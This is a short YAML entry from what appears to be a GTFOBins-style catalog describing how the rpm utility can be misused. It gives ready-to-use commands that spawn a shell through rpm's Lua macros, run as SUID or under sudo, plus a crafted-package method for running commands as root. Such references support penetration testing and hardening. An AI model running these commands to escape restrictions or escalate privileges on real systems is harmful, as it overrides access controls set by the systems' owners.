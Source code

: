 ```yaml
---
functions:
  shell:
    - description: |
        From rpm versions 4.9.0 and on, posix.exec() will return an error unless called from a child process created with posix.fork(). os.execute() may be used instead.
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

